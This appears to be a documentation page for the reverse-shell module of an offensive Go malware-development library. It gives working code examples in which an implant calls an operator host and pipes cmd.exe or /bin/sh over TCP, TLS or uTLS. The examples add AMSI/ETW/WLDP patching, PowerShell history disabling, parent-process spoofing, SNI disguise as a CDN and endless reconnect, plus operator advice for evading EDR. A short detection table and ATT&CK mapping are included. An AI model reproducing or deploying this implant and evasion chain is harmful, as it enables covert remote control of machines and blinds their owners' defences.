


# Reverse shell

[← c2 index](README.md) · [docs/index](../../index.md)

## TL;DR

Implant calls home over any [`c2/transport`](transport.md) and pipes
a local interpreter (`cmd.exe` or `/bin/sh`) over the connection. The
loop reconnects on drop with configurable retry count and back-off
delay. Unix path allocates a PTY for full interactive use; Windows
path uses direct `cmd.exe` I/O and optionally patches AMSI / ETW /
CLM / WLDP + disables PowerShell history before the shell starts.

| You want… | Use | Notes |
|---|---|---|
| One-shot reverse shell over TCP/TLS/uTLS | [`Reverse`](#reversecfg-config-error) | Blocks until interpreter exits or transport drops |
| Auto-reconnect loop | [`ReverseLoop`](#reverseloopcfg-config-error) | Retries N times with back-off; useful for long-running access |
| Spoof the spawn's parent process | `Config.PPIDSpoofer` (Windows) | See [`evasion/ppid-spoofing`](../evasion/ppid-spoofing.md) |
| Silence telemetry before shell starts | `Config.PreShell = preset.Stealth()` | Patches AMSI / ETW / CLM / WLDP — useful for PowerShell |

What this DOES achieve:

- Cross-platform. Windows uses `cmd.exe`; Unix allocates a PTY
  for full readline / vi support.
- Optional pre-shell evasion (Windows): silence AMSI + ETW,
  disable PowerShell history, opt out of WLDP — done **before**
  the shell launches so the operator's first command isn't
  the loud one.
- Composable transport — same shell code works over TCP / TLS /
  uTLS based on `Config.Transport`.

What this does NOT achieve:

- **Not a beacon** — this is a long-lived TCP/TLS pipe, not a
  poll-based check-in. For sleep-mask / encrypted-page beacons,
  build on top with [`evasion/sleepmask`](../evasion/sleep-mask.md).
- **No staging** — the interpreter (`cmd.exe`) is already on
  the target. For shellcode delivery / .NET assembly run, see
  [`pe/srdi`](../pe/pe-to-shellcode.md) + [`runtime/clr`](https://pkg.go.dev/github.com/oioio-space/maldev/runtime/clr).
- **`cmd.exe` is loud** — process-creation event with
  `cmd.exe` parent = your implant fires every EDR's "command
  shell from non-shell process" rule. Use PPIDSpoofer + preset.Stealth
  to mute the worst signals; a real beacon stays cleaner.

## Primer

Network firewalls typically allow outbound connections and block
inbound ones, so a "reverse" shell calls **out** from the target to
the operator. The operator runs a listener; the implant runs a
short program that opens an outbound socket, fork-execs a local
interpreter, and wires the interpreter's stdio to the socket.

Two common failure modes need explicit handling. Connections drop —
the package wraps the connect / pipe loop in an automatic reconnect
loop with configurable retry count and delay. Interpreter behaviour
on Windows differs from Unix — Unix needs a PTY for `vim` / `top` /
job control to work; Windows needs no PTY but does need careful
stdio handling. The package abstracts both differences behind a
single `Shell` type.

The Windows code path also exposes optional defence-patching: AMSI
disable (so PowerShell stages survive scanning), ETW patching (so
provider-based EDRs go quiet), CLM bypass (Constrained Language Mode
restrictions disabled), WLDP patching (Windows Lockdown Policy
relaxed), and PowerShell history disable (so `Get-History`
post-mortem returns nothing).

## How it works



The `Shell` runs a strict state machine — `Start` is rejected on a
running shell; `Stop` is rejected on an idle one. Transitions are
mutex-guarded.



## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/c2/shell`](https://pkg.go.dev/github.com/oioio-space/maldev/c2/shell) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## Examples

### Simple

```go
import (
    "context"
    "time"

    "github.com/oioio-space/maldev/c2/shell"
    "github.com/oioio-space/maldev/c2/transport"
)

tr := transport.NewTCP("10.0.0.1:4444", 10*time.Second)
sh := shell.New(tr, nil)
_ = sh.Start(context.Background())
sh.Wait()
```

### Composed (TLS + cert pin)

```go
import (
    "context"
    "time"

    "github.com/oioio-space/maldev/c2/shell"
    "github.com/oioio-space/maldev/c2/transport"
)

const operatorPin = "AB:CD:..." // SHA-256

tr := transport.NewTLS("operator.example:8443", 10*time.Second, "", "",
    transport.WithTLSPin(operatorPin))
sh := shell.New(tr, nil)
_ = sh.Start(context.Background())
sh.Wait()
```

### Advanced (defence patching + PPID spoof + uTLS)

```go
import (
    "context"
    "os/exec"
    "time"

    "github.com/oioio-space/maldev/c2/shell"
    "github.com/oioio-space/maldev/c2/transport"
)

_ = shell.PatchDefenses()

spoof := shell.NewPPIDSpoofer()
if err := spoof.FindTargetProcess(); err == nil {
    // The spoofer publishes a SysProcAttr the shell layer applies
    // to the spawned cmd.exe.
    _ = spoof
}

tr := transport.NewUTLS("operator.example:443", 10*time.Second,
    transport.WithJA3Profile(transport.HelloChromeAuto),
    transport.WithSNI("cdn.jsdelivr.net"),
    transport.WithUTLSFingerprint("AB:CD:..."))

cfg := shell.DefaultConfig()
cfg.MaxRetries = 100
cfg.RetryDelay = 30 * time.Second

sh := shell.New(tr, cfg)
_ = sh.Start(context.Background())
sh.Wait()
_ = exec.Command // silence unused import in extracted snippet
```

### Complex (full chain — evade + spoof + uTLS + reconnect forever)

```go
import (
    "context"
    "time"

    "github.com/oioio-space/maldev/c2/shell"
    "github.com/oioio-space/maldev/c2/transport"
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
)

_ = evasion.ApplyAll(preset.Stealth(), nil) // AMSI/ETW/CLM/WLDP/...
_ = shell.PatchDefenses()                   // belt + braces

tr := transport.NewUTLS("operator.example:443", 10*time.Second,
    transport.WithJA3Profile(transport.HelloChromeAuto),
    transport.WithSNI("cdn.jsdelivr.net"),
    transport.WithUTLSFingerprint("AB:CD:..."))

cfg := shell.DefaultConfig()
cfg.MaxRetries = 0 // 0 = unlimited
cfg.RetryDelay = 60 * time.Second

sh := shell.New(tr, cfg)
ctx, cancel := context.WithCancel(context.Background())
defer cancel()
_ = sh.Start(ctx)
sh.Wait()
```

See `ExampleNew` in
[`shell_example_test.go`](../../../c2/shell/shell_example_test.go).

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| Outbound TCP from a non-network process | Sysmon Event 3, EDR egress hooks |
| `cmd.exe` / `powershell.exe` child of an unusual parent | Sysmon Event 1 — pair with `PPIDSpoofer` to reshape |
| AMSI / ETW patch bytes in ntdll/amsi.dll | Memory scanners (Defender, MDE Live Response) |
| Beacon timing patterns | Behavioural NIDS — randomise `RetryDelay` jitter |
| Long-lived `cmd.exe` with redirected stdio | Process-explorer anomaly |

**D3FEND counters:**

- [D3-OCA](https://d3fend.mitre.org/technique/d3f:OutboundConnectionAnalysis/)
  — outbound-connection profiling.
- [D3-PSA](https://d3fend.mitre.org/technique/d3f:ProcessSpawnAnalysis/)
  — `cmd.exe` parentage and command-line analysis.
- [D3-NTA](https://d3fend.mitre.org/technique/d3f:NetworkTrafficAnalysis/)
  — TLS handshake + content metadata.

**Hardening for the operator:** prefer uTLS over plain TLS; pair
`PatchDefenses` and PPID spoofing; randomise `RetryDelay` with
[`random.Duration`](https://pkg.go.dev/github.com/oioio-space/maldev/random); fold the shell into a longer-lived
host process that legitimately spawns command interpreters
(maintenance scripts, build agents).

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1059](https://attack.mitre.org/techniques/T1059/) | Command and Scripting Interpreter | reverse-shell harness | D3-PSA |
| [T1059.001](https://attack.mitre.org/techniques/T1059/001/) | PowerShell | when child is `powershell.exe` | D3-PSA |
| [T1059.003](https://attack.mitre.org/techniques/T1059/003/) | Windows Command Shell | when child is `cmd.exe` | D3-PSA |
| [T1059.004](https://attack.mitre.org/techniques/T1059/004/) | Unix Shell | Unix code path | D3-PSA |

## Limitations

- **Reverse shells are inherently noisy.** No amount of jitter
  defeats a determined defender with full network visibility. Use
  uTLS + malleable profiles and accept that the shell is a
  short-lifetime tool.
- **`PatchDefenses` is best-effort.** AMSI/ETW patches survive within
  the current process only. Spawned children inherit patched ntdll;
  re-spawned shells from a different host process do not.
- **PTY only on Unix.** Windows lacks a true PTY — interactive
  applications (`vim`, full-screen TUIs) misbehave.
- **PPID spoof requires admin or specific process ACLs.** Some
  targets refuse cross-session parent pinning even from elevated
  processes.

## See also

- [Transport](transport.md) — bytes-on-wire layer.
- [Multicat](multicat.md) — operator listener.
- [Malleable profiles](malleable-profiles.md) — HTTP-shaped variant.
- [`evasion/preset`](../evasion/README.md) — apply before `Start`.
- [`process/spoofparent`](../evasion/ppid-spoofing.md) — alternative
  PPID spoofing implementation outside the shell package.